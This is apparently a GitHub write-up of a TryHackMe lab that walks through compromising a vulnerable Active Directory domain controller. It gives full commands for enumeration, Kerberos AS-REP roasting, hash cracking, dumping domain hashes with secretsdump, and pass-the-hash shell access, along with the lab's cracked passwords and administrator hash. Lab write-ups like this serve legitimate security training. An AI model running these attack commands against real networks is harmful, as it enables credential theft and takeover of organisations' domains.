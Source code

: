 # Active Directory Exploitation Walkthrough

> 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## Enumeration

Starting off with an Nmap scan on the target (I have already exported the IP address of the target to the variable `$target`):

```bash
nmap -p- -sV -sC $target --open
```

![image](https://github.com/user-attachments/assets/4974ebac-1ccb-418d-b568-796cd481f98e)


We can see the Active Directory domain: `spookysec.local`.

This is a typical AD setup with services like Kerberos, SMB, RPC, and LDAP running. Let's enumerate these services one by one.

---

## SMB

Nmap revealed SMB ports open on **139, 445**.

### Tools:
- `enum4linux`
- `nmap` SMB scripts
- `crackmapexec`

Running:

```bash
enum4linux -smb $target

nmap -p139,445 --script=smb-enum-shares -sC $target

crackmapexec smb $target
```

> Why is port 445 open?  
Basic domain functions (remote file access, software deployment, system management) require it.

**crackmapexec** reveals:
- Hostname: `ATTACKTIVEDIREC`
- Domain: `spookysec.local`
- OS: Windows 10 / Server 2019 Build 17763

**enum4linux** reveals:
- Domain SID
- NetBIOS name

---

## Kerberos User Enumeration (Kerbrute)

This TryHackMe box comes with a user/password list.

```bash
sudo ./kerbrute_linux_amd64 userenum --dc $target -d spookysec.local userlist.txt
```

**Notable valid users:**
- `svc-admin`
- `administrator`
- `backup`

---

## AS-REP Roasting

ASReproasting targets users **without pre-authentication** required.

> AS-REP = Authentication Server Reply  
> Roasting = Extracting Kerberos-encrypted values for offline cracking

Using Impacket's `GetNPUsers.py`:

```bash
python3 examples/GetNPUsers.py spookysec.local/ -no-pass \
  -usersfile /home/kali/Downloads/userlist.txt -dc-ip 10.10.28.119
```

Result:

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[hash...]
```

### Hash Info:
- **Hash Type**: Kerberos 5, etype 23, AS-REP
- **Hashcat Mode**: 18200

### Cracking with Hashcat:

```bash
hashcat -m 18200 hash.txt wordlist.txt
```

**Credentials:**
- Username: `svc-admin`
- Password: `management2005`

---

## SMBCLIENT (Accessing Shares)

Use found credentials:

```bash
smbclient -L \\$target -U svc-admin
```

To avoid the password prompt:

```bash
smbclient -L \\$target -U svc-admin%management2005
```

### Accessing a Share:

```bash
smbclient \\$target\backup -U svc-admin%management2005
```

Graphical Alternative (Kali GUI):
- Use `smb://IP/backup` in File Manager

---

## Downloading Files

Example:

```bash
get backup_credentials.txt
```

### Decode base64:

```bash
base64 -d backup_credentials.txt
```

---

## secretsdump.py (Dumping Hashes)

Use backup credentials:

```bash
python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target
```

**Administrator Hash:**
```
0e0363213e37b94221497260b0bcb4fc
```

---

## Pass-the-Hash with Evil-WinRM

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc \
  -i 10.10.157.141 -u Administrator
```

> You should now have shell access. Use `cd`, `dir`, and `type` to browse and read files.

---

## Alternative Tools

### Netexec

```bash
netexec smb 10.10.157.141 -u backup -p backup2517860 --ntds
```

### crackmapexec (Command Execution)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -x "whoami"
```

### crackmapexec (PowerShell)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -X "whoami"
```

> PowerShell execution may be blocked by antivirus.

---

## Conclusion

Thanks for reading.  
If you have questions or want to share your thoughts, feel free to comment below.
